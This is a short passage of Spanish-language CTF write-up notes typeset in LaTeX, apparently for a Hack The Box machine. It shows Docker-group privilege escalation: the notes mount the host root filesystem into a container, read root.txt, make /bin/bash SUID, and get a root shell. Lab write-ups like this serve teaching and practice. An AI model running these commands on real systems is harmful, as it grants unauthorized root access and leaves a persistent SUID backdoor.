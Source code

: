 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\NormalTok}[1]{#1}
\begin{document}
\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Checkear las imagenes Docker existentes

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{docker}\NormalTok{ ps}
\end{Highlighting}
\end{Shaded}
\item
  Utilizar una imagen existente para crear un contenedor y \textbf{mountarle} la raiz del systema en el contenedor

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{docker}\NormalTok{ run --rm -it -v /:/mnt rodhes bash}
\BuiltInTok{cd}\NormalTok{ /mnt/root/}
\FunctionTok{cat}\NormalTok{ root.txt}
\end{Highlighting}
\end{Shaded}
\item
  Escalar privilegios en la maquina real

  \begin{itemize}
  \item
    en el contenedor

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /mnt/bin}
\FunctionTok{chmod}\NormalTok{ 4755 bash}
\BuiltInTok{exit}
\end{Highlighting}
\end{Shaded}
  \item
    en la maquina real

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{bash}\NormalTok{ -p}
\FunctionTok{whoami}

\CommentTok{#Output}
\ExtensionTok{root}
\end{Highlighting}
\end{Shaded}
  \end{itemize}
\end{enumerate}

\hypertarget{traverxec}{%
\chapter*{Traverxec}\label{traverxec}}
\end{document}
